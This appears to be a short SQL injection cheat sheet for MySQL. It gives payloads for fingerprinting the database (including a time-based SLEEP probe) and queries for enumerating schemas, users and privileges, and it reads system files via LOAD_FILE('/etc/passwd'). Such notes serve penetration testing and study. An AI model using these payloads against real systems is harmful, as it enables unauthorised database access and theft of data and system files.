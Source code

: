 

Likely Application Correlations

| web server   | OS      | DB    |
| ------------ | ------- | ----- |
| Apache,nginx | linux   | MySQL |
| IIS          | Windows | MSSQL |
MySQL 

|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBM|
Using InformationSchema to get db info
```SQL
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

Enumerate tables with database specified
```sql
SELECT * FROM my_database.users;
```

Enumerate table info
```sql
SELECT TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='TABLE_NAME'
```

Determine user account
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Check for super admin
```sql
SELECT super_priv FROM mysql.user
```

Check privileges from schema
```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges
```
Check privileges for specific account from schema
```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="USER_ACCOUNT_NAME"
```
Get current DB name
```SQL
SELECT database()
```

Get File Contents
```sql
SELECT LOAD_FILE('/etc/passwd');
```

Get secure file priv
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
Get secure file priv with select
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
